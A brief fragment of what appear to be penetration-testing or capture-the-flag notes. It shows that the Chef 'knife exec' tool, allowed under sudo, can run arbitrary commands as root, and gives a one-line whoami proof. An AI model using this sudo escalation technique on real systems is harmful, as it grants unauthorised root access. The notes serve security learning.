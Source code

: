Put my SSH key to Json (but its not neccessary)

can run the ruby knife tools as root
can execute commands as root: https://docs.chef.io/workstation/knife_exec/

```bash
sudo /usr/bin/knife exec -E 'system("whoami")'
```